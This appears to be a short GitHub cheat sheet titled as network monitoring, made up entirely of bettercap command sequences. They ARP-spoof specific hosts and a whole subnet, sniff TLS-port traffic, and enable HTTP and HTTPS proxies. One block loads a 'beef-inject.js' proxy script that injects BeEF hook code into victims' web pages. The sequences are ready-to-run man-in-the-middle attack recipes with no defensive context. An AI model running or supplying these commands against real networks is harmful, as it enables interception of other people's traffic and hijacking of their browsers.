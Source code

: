 # monitor activities on your network

- open

```
bettercap
net.probe on
sleep 1
net.probe off
set arp.spoof.targets 192.168.50.25
set http.proxy.script beef-inject.js
http.proxy on
sleep 1
arp.spoof on
```





- who's on the network

```
net.probe on
clear
ticker on
```

- sniff

```
net.probe on
sleep 1
net.probe off
set net.sniff.verbose false
set net.sniff.local true
set net.sniff.filter tcp port 443
net.sniff on
```
```
net.probe on
sleep 1
net.probe off
set net.sniff.verbose false
set arp.spoof.targets 172.16.1.*
set net.sniff.local true
set net.sniff.verbose false
set net.sniff.filter tcp port 443
arp.spoof on
http.proxy on
net.sniff on
```

set target

```
set arp.spoof.targets 192.168.50.150
```

run
```
http.proxy on
https.proxy on
arp.spoof on
```
